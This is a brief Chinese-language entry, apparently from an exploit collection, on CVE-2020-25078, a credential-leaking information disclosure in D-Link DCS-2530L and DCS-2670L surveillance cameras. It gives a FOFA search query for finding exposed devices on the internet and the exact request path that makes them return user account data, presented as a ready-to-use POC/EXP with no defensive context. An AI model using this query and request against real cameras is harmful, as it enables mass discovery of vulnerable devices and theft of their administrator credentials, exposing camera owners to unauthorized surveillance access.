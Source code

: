 # D-Link DCS系列监控 信息泄露 CVE-2020-25078

## 网络测绘

fofa: app="D_Link-DCS-2530L" || app="D_Link-DCS-2670L"

## POC / EXP

```
/config/getuser?index=0
```